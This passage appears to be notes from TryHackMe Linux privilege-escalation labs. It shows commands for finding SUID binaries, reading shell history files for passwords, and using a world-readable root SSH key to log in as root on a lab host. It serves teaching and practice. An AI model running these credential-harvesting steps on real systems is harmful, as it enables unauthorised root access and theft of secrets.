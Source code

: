 ```find / -type f -perm -04000 -ls 2>/dev/null```
If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:

```bash
cat ~/.*history | less
```

Config files often contain passwords in plaintext or other reversible formats.

List the contents of the user's home directory:

```bash
ls -la /home/user
```
- --
## Passwords & Keys - SSH keys
Sometimes users make backups of important files but fail to secure them with the correct permissions.

Look for hidden files & directories in the system root:

```bash
ls -la /
```

Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

```bash
ls -l /.ssh
```

Note that there is a world-readable file called root_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your machine (it's easier to just view the contents of the root_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

```bash
chmod 600 root_key
```

Use the key to login to the machine as the user:

```bash
ssh -i root_key root@10.10.218.59
```
- --
### Source
- [Tryhackme room](https://tryhackme.com/room/linuxprivesc)
- [Tryhackme room](https://tryhackme.com/room/linprivesc)